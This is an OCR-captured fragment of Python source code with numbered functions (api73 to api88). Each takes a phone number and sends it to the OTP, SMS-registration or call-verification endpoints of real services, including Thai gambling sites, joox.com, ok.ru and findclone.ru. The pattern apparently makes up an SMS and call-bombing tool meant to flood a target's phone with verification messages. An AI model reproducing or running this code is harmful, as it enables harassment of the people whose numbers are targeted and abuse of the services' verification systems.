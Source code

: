     

def api73(phone):

    post("https://bacara888.com/api/otp/register",data={"applicant":phone,"serviceName":"gclub"})

    

def api74(phone):

    post("https://www.tslpv.net/api/v1/sendRegisterSms", data={"national_number":phone,"country_code":"TH","g_token":"null"})

    

def api75(phone):

    post("https://queenclub88.com/api/register/phone", data={"phone":phone})

    

def api76(phone):

    post("https://api.cdfoi9.com/api/v1/index.php", data=f"module=%2Fusers%2FgetVerificationCode&mobile={phone}&merchantId=111&domainId=0&accessId=&accessToken=&walletIsAdmin=",headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","content-type": "application/x-www-form-urlencoded"})

    

def api77(phone):

    get(f"https://api.joox.com/web-fcgi-bin/web_account_manager?optype=5&os_type=2&country_code=66&phone_number=0{phone}&time=1641777424446&_=1641777424449&callback=axiosJsonpCallback2")

    

def api79(phone):

    send = Session()

    send.headers.update({"User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38","Content-Type" : "application/x-www-form-urlencoded","Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"})

    snd = send.post("https://ok.ru/dk?cmd=AnonymRegistrationEnterPhone&st.cmd=anonymRegistrationEnterPhone",data=f"st.r.phone=+66{phone[1:]}")

    sed = send.post("https://ok.ru/dk?cmd=AnonymRegistrationAcceptCallUI&st.cmd=anonymRegistrationAcceptCallUI",data="st.r.fieldAcceptCallUIButton=Call")

    

def api80(phone):

    get(f"https://findclone.ru/register?phone=+66{phone[1:]}",headers={"X-Requested-With" : "XMLHttpRequest","User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36"}).json()



def api88(phone):

    post("https://globalapi.pointspot.co/papi/oauth2/signinWithPhone", data={"phoneNumber": phone})

    
